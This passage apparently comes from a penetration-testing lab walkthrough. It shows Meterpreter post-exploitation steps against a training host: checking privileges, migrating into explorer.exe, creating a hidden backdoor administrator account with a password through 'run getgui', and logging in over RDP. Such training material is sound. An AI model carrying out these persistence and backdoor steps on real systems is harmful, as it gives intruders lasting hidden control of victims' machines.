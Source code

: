 #### 4. Verifying the Session

Once we have a Meterpreter session, we can verify our privileges and system information:

```bash
getuid
```

```bash
sysinfo
```

- **Explanation**: `getuid` shows the user under which the Meterpreter session is running, and `sysinfo` provides details about the target system.

---

#### 5. Migrating to a Stable Process

To ensure our session is stable, we can migrate to a well-known process, like **explorer.exe**:

```bash
pgrep explorer
```

```bash
migrate 4072
```

- **Explanation**: The first command finds the process ID of `explorer.exe`, and the second command migrates the Meterpreter session to that process, which is generally more stable.

---

#### 6. Establishing Persistence via RDP

Now we will establish persistence by creating a backdoor user that can access the system via RDP. Run the following command:

```bash
run getgui -e -u alexis -p hacker_123321
```

- **Explanation**: This command checks if RDP is enabled, creates a new user (`alexis`), hides this user from the logon screen, and adds the user to the local Administrators group and the RDP group. This allows for persistent access via RDP.

---

#### 7. Connecting to the Target via RDP

After setting up the backdoor user, we can exit the current session and connect to the target using RDP:

```bash
xfreerdp /u:alexis /p:hacker_123321 /v:demo.ine.local
```

- **Explanation**: This command connects to the target system using the FreeRDP client with the newly created user credentials.

---